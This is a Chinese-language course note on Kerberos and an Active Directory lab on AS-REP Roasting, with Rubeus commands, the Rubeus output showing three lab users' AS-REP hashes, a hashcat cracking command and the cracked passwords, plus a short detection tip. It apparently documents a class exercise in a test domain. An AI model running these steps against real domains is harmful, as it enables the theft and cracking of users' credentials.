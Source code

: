 ```yaml
---
title: NTUSTISC - AD Note - Lab(AS-REP Roasting)
tags: [NTUSTISC, AD, information security]

---
```


# NTUSTISC - AD Note - Lab(AS-REP Roasting)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=CRVWKo4tnpx3LqxK)

## Background
[第十四章 Kerberos 認證系統](https://www.tsnien.idv.tw/Security_WebBook/chap14/14-4%20Kerberos%20%E8%AA%8D%E8%AD%89%E7%B3%BB%E7%B5%B1%E7%B0%A1%E4%BB%8B.html)
* 簡介：這是一種計算機網路授權協議，簡單說如果在同一個domain底下，想要存取某一個server的某項服務，則要如何驗證該使用者的身分以及授權他使用該項服務的資格?換個角度想，如果不認證會怎麼樣?首先，如果不認證使用者身分，就直接讓授權使用該項服務，則最直觀的攻擊就是DoS，或是駭客可以透過該項服務打到內網$\to$提權$\to$橫向移動$\to$APT，看起來很危險；另外一方面，如果有驗證身分，但通過驗證的人一率給予使用服務的授權，又會怎麼樣?可以利用eavesdropping得到授權的ticket再利用reply attack還是可以偽造身分
* 提醒：Windows Kerberos和MIT Kerberos在實作上有一點不一樣，如果想要知道windows kerberos可以看飛飛的文章[^feifei-ad-kerberos-1][^feifei-ad-kerberos-2]，然後自行比對粘添壽老師的影片
* MIT Kerberos架構：
    ![](https://www.tsnien.idv.tw/Security_WebBook/Security_%E6%8F%92%E5%9C%96/%E5%9C%96%2014-8.png)
    為了防止前面提到的問題，他增加了一個TGS的Server，但純控管tickets的發放，另外在驗證上面也增加了timestamp和請求方的網路位址，這樣就可以防止reply attack，而且短時間內都不需要再進行身分認證，很方便
* Windows Kerberos架構：
    ![](https://hackmd.io/_uploads/BkTzOxN1T.png)
* 優點
    > * 主密鑰分配：AS 伺服器除了必須擁有客戶的主密鑰之外，還必須擁有 TGS 的主密鑰；另外，TGS 伺服器也需要擁有所有伺服器的主密鑰。這就是 Kerberos 將所有參與者都稱為 Principal 的主要原因。
    > * 客戶密碼只要輸入一次：客戶端取得通往 TGS 的門票（TicketTGS）之後，在該票的有效期限之內，都可以請求服務，而不需要再輸入密碼來索取門票。
    > * 防禦偽裝攻擊：門票（TicketTGS與 TicketB）上有登錄該票的使用者識別（ID）、工作站位址（AD）、時間戳記（TS）與有效期間（Lifetime）。攻擊者攔截到門票之後，不易在在有效期內偽裝成合法客戶。
    > * 防止重播攻擊：門票有註明時間戳記（T），當攻擊者重播門票時，接收端可以利用時間戳記辨別門票的新舊。


## Lab
### ==AS-REP Roasting==
* 攻擊情境：在Win2016的Server Manager中的Tools可以找到Active Directory User and Computer
    ![](https://hackmd.io/_uploads/H1JCrlEyT.png)
    在一般user的property中，可以看到Account/Account options最底下有一個選項==Do not require Kerberos preauthentication==，這個功能主要是前面提到的對於身分不會認證(1, 2步驟會略過，只執行3-6)，他只會認證後面的ticket
    ![](https://hackmd.io/_uploads/BJidLxV1a.png)
    雖然預設是不勾選，但有兩種情況會打勾
    1. 如果被駭客打進去到最高管理員，當然它會勾選這個功能方便搞事(所有帳號)
    2. 因為windows有分版本，如果要向下兼容各版本之間的認證，則該選項就一定要勾選(這也是為甚麼講師在前面有提到一定要升級AD的舊環境)，這在很古老的系統中常常發生
* 滿足條件：只要前面提到的功能被打開，就可以進行AS-REP Roasting
* 如何攻擊：
    * 自己把Microsoft的document看懂如何pack一個packet，然後自己實作
    * 另一種方式就直接用工具[Rubeus 1.6.4](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)，他可以直接把有勾選該項目的帳號，送出AS-REQ的請求，然後接收AS-REP的回應，並把接收到的tickets以你指定的格式印出來
    * Cheat Sheet:
    ```bash
    $ Rubeus.exe asreproast
    $ Rubeus.exe asreproast /format:hashcat /outfile:out.txt
    ```
---
#### 實際執行
1. Using Rubeus.exe
:::spoiler Result
```bash!
$ Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: AS-REP roasting

[*] Target Domain          : kuma.org

[*] Searching path 'LDAP://WIN-818G5VCOLJO.kuma.org/DC=kuma,DC=org' for AS-REP roastable users
[*] SamAccountName         : reyna.gwendolyn
[*] DistinguishedName      : CN=Reyna Gwendolyn,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\reyna.gwendolyn'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$reyna.gwendolyn@kuma.org:4B08601B0A55BA231BED4333EAA6ED9C$E146006C2F6
      B5EF8D78D4280E646FA601860D754261C28DC48470F2EA99E75DFD03E53F4BAC09BD1BE9697C5918
      C48E5BA6A64D51A550FC6833327EBEF9A0C62F2448BA3CA3AA7D9BD375BF8BE693B1BC199A442053
      AC3A40FA3F29EE3ABFB9B1B1E1C31DDD508FAB7971F1FDCE057D5A4481678511188DB99921762116
      934D04C72071DAACFC6FFA8250380CD9ECECF95CC5702FD7A67AB90F18C299BB9AD8FF4A9325730E
      859F2105F1AF64E170EB118111414CC44D0CDD1199860EF0D99ECD33FB618FEDCFAE96E0DFB75A4D
      9EF3C06C99DBBD9C0A69A344C4C5A65B5B702152081F9

[*] SamAccountName         : henrieta.sabine
[*] DistinguishedName      : CN=Henrieta Sabine,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\henrieta.sabine'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$henrieta.sabine@kuma.org:DEBC5F5111CE6D774625EB3DCC14925A$A91DD569550
      A48219DAC0F53E4114DA7027E073DD6A86EFC83C79206787A84DBF6FC7F4B5168D7CBE65B073A05B
      B13AF1514D32D787948F91E05FF40191B6FE7819B9F5A978377D82B5E9532688B1CF28BBA1370365
      68C110CAB41FEC26D262DC422CB54B678456470AE34F23B6D2CB1597E9565CACD11C1C5F9683408B
      241650007B0E162C40D7694D8F5A5154254E0A54829C7784EB5493DF15812271C3161DD5937B368B
      93406383215D909289E3FE096A10D396EF662C02031E6D4352C6A411EEC38B0A1D02A2E0AB03C86E
      CBF9C07C441C4D5EBD4269400373A2AFAD5879293B856

[*] SamAccountName         : giulietta.moyra
[*] DistinguishedName      : CN=Giulietta Moyra,CN=Users,DC=kuma,DC=org
[*] Using domain controller: WIN-818G5VCOLJO.kuma.org (192.168.222.128)
[*] Building AS-REQ (w/o preauth) for: 'kuma.org\giulietta.moyra'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$giulietta.moyra@kuma.org:11CD5E39C2CEA9695C50826E6FCA66D3$9E2B2F3ED60
      5D93BF02721F921D09DE188F1F7F3BE23907A73B95B30ECB0C1CFF5C68A0E814931A6A839DC1098C
      2F3EF8B0A68492CA16E6CD96C843373581DD8CF14F7F58AE9B63A4717D1E8F7C2AA56DAC959F589C
      1533249CA5BF72BBFC833609A0D958B7B5E692632D3557678B671E65C092494B38FC3840D09E16F4
      1FE8D1BB86FAF16BD3F39E4E8CF8AC07A10FCD20E947D3A496A4204350D1E3B0448DB92AE749F3D0
      7A9D1582677A5958B70DD38E2CDFC914C2848D0F9BC0E78D65AB7F3B9E1B5AFFA53588FBD7FFB297
      357047776932B4EA2405ECB5705418BDE7CB8DBE725BB
```
:::
可以看到他總共吐出了三個hash，分別對應到三個使用者：<font color="FF0000">reyna.gwendolyn, henrieta.sabine, henrieta.sabine</font>，如果仔細對應win2016相對使用者的property會發現的確，這三個user的該選項都有打勾，現在則是利用hashcat之類的工具把hash暴力解開

2. Using Hashcat
可以直接在Kali使用hashcat，不過我是直接在windows上操作，可以參考[^hashcat-instruction]，講解的非常詳細
```bash!
$ hashcat.exe -m 18200 -a 3 ".\Kerberos-AS-REP.txt" -o output.txt
```

Output Result
```bash!
$krb5asrep$23$giulietta.moyra@kuma.org:eb292e4b9e547357db6500d982df775b$2def9955e12f072fdc189adcde61dbff3939f7cfda5c84583c78335edfff1c5d246e3c311b991e26c0ca7afbb97757a2751a521b596e9da9a3ffcbec31205b61e45473cfbff58046f5a9759aa186ebbb90894749b2f0cbd91d6558e8f0750aab7c0b46d8947f843327f9dceb94c4b4043ee902856f3c01493e353c28cd956aaa0c58c6ded536e11855d4584aeed3486e379f91199eb96808631f2b72f0443e637cc66268bc8dd87528daf96b28de8fbccae28aa52b38f5069e5aa2c9b4dd9e21ed77ac30d6602459376a8a791d133f577024c43cae1ac8bd973d39e191ba535c0f660b0e:willow
$krb5asrep$23$reyna.gwendolyn@kuma.org:ef97037a66f7cedcacf9aeae90e8d8cc$930cc1157dfee8d506c728f11184963e4011a0254ea83428aaf529de9c2a10c533ff12c0b6f519aad9c65a7fa6a645e6552f57936001c8b8011bbf1f3f93981bd6126befb0dd74b1df7930336f240f623d1d9e53bbb5e37864559d37ee3f1a0edd319a7252a3b6bab5b50d81967abc630eccb804dd200218b7222914776d71387c2916353c3475426515aaa5b95108b9e9ae68c8ece2dfeeaf7836dd9f3778c49c4090850925332470b9eab9c77c4549237a17f58e41b0b09a1be6a99827f5b14d78a734300bb08056c40a28b6f69fa2c7b72afa7d18d831631b19b7cbcc5a6dc928d66d:edward
$krb5asrep$23$henrieta.sabine@kuma.org:cef1cda05e49376d4749ace914595ea1$43d6d77a9de81c2e1c6a00fd7ea6bbb2dc087e26568ae31ab08f2b6887ccfa427ca59fab8dd7bd69d3c2b13b5f1c4ec2dff56f975940d1096eac8bca440c5adafa49e5e8b57d3cc7fddf83a71fef5353a3e3e2a85a6269a39a007bd5272ef40ba721b30313a2054d684e8efe81b214a79af9e1d5d75b1746070486a0d90e79123d1c881a56d190a7c76f1ad951695faee37f64f7f063fd38f2d7af0476747d10c5d16540c34396a0e752aaa820b4147396829affd62b99de0fa6fd0fba13a5271d5fd8b6484a7e9ef52526d0b6cef84f1ab4c939dc977e967bd12c98ca6fb55508d1a770:therock
```
這三者的密碼就被爆出來了，分別是
giulietta.moyra$\to$willow
reyna.gwendolyn$\to$edward
henrieta.sabine$\to$therock

#### ==How to detect it?==
Event ID: 4768(預設不開，因為在一般中大型公司中，開了這個所收到的event會超多，所以除非做好filter不然一般不開)

## Reference
[^feifei-ad-kerberos-1]:[AD Security - [Day7] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (1) ](https://ithelp.ithome.com.tw/articles/10296583)
[^feifei-ad-kerberos-2]:[AD Security - [Day8] 一起來學 AD 安全吧！：AD 驗證協定 Kerberos (2) ](https://ithelp.ithome.com.tw/articles/10297185)
[^hashcat-instruction]:[【教學】密碼恢復工具 Hashcat簡易基本教學(windows7/10)](https://home.gamer.com.tw/creationDetail.php?sn=3669363)